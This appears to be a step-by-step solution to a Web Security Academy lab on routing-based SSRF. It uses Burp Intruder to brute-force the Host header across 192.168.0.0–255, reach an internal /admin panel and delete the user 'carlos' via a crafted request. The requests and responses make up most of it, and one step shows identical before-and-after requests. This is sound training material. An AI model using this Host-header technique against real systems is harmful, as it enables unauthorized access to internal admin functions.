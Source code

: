 ```bash

Send to Intruder
Un-check "Update Host header to match target"
Clear
Change:

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1
Host: 5agav5afksow19o3qzpk8p6h288ywn.oastify.com

To

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1
Host: 192.168.0.§0§

Go to: Payloads
Payload Sets
Payload type: Numbers
Payload Options[Numbers]
From: 0
To: 255
Step: 1
Start attack
There will be one status of "302"
Send to repeater
Send
Response:

Location: /admin 

Change:

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.75

To

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.75

Response:

HTTP/1.1 200 OK

<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
	<input required type="hidden" name="csrf" value="beihv9uOhjvzvuH7SSNW54R8rTZWd6W5">
	 <label>Username</label>
	<input required type='text' name='username'>
	<button class='button' type='submit'>Delete user</button>
</form>

Change:

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/admin HTTP/1.1

To

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/admin/delete?csrf=beihv9uOhjvzvuH7SSNW54R8rTZWd6W5&username=carlos HTTP/1.1

HTTP/1.1 302 Found

```
